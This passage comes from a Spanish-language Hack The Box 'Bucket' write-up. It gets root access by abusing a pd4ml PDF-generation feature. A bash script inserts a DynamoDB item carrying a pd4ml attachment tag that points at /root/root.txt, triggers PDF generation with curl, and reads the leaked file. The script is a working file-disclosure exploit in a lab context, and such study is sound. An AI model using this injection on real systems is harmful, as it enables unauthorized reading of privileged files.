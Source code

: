 ```bash
```

La copiamos, guardamos en un archivo, le damos los permisos necesarios: `chmod 700 keyroot` e intentamos ingresar mediante `SSH`:

![283bash_log_with_idRsa_root](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/bucket/283bash_log_with_idRsa_root.png)

OPAAAAAAAAAAAAAAa tamos dentro compita (: Solo nos quedarían por ver las flags:

![283flags](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/bucket/283flags.png)

...

**Nota:**

> Como vimos lo que explotamos no fue la ruta absoluta que había comentado que probablemente podríamos cambiar, sino que nos aprovechamos de un feature de la herramienta y de un proceso que llama la herramienta. Ya que el archivo `index.php` lee el contenido de la tabla y extrae la fila `data` para guardarla en un archivo, de ese archivo es que se genera el PDF (: Muy lindo la verdad.

...

En resumen, el proceso para ver el contenido de la bandera del usuario `root` sería algo así plasmado en un script (ya que la tabla es borrada en pocos segundos):

```bash
#!/bin/bash

#Create table `alerts`
aws --endpoint-url=http://localhost:4566 dynamodb --region us-east-1 create-table --table-name alerts \
        --attribute-definitions AttributeName=title,AttributeType=S AttributeName=data,AttributeType=S \
        --key-schema AttributeName=title,KeyType=HASH AttributeName=data,KeyType=RANGE \
        --provisioned-throughput ReadCapacityUnits=10,WriteCapacityUnits=5

#Validate creation
aws --endpoint-url=http://localhost:4566 dynamodb list-tables

#Add data to the table
aws --endpoint-url=http://localhost:4566 dynamodb put-item --table-name alerts \
        --item '{"title": {"S": "Ransomware"}, "data": {"S": "<pd4ml:attachment description=\"attached.txt\" icon=\"PushPin\">file:///root/root.txt</pd4ml:attachment>"}}'

#Validate data inside table
aws --endpoint-url=http://localhost:4566 dynamodb scan --table-name alerts

#Generate PDF
curl -X POST --data "action=get_alerts" http://localhost:8000/index.php

#Read `result.pdf`
cat /var/www/bucket-app/files/result.pdf
```

...
